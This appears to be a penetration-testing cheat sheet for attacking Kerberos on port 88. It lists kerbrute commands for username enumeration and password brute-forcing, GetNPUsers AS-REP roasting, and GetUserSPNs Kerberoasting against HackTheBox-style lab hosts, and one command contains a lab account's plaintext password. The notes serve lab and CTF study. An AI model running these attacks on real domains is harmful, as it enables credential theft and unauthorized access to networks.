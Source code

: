```yaml
---
title: Port 88 - Kerberos
draft: false
tags:
  - kerberoasting
  - kerberos
  - getuserspns
  - as-rep-roasting
  - getnpusers
---
```


## Bruteforce Account Name

There are many different ways to obtain list of Account Names:
-  RPC
- LDAP
- SMB
- Kerberos

**Account name bruteforcing:**

`./kerbrute_linux_amd64 userenum -d manager.htb --dc dc01.manager.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

**Password Bruteforcing:**

`kerbture bruteuser -v --dc 10.0.0.1 -d example.domain passwords.txt username`


## AS-REP Roasting (No Creds)

If you don't have valid credentials for any account, you can try on **as-rep roasting** -> Checks for users that has **NO_PRE_AUTH_REQUIRED** enabled. 

**Without valid username:**

`GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -user usernames -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175`

**With valid username:**

`GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/username`


## Kerberoasting (With Creds)

When you have valid credentials for any account, try on Kerberoasting -> Bruteforce hash if it is found.


`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip dc.active.htb -request`

![](https://i.imgur.com/0ZOozST.png)

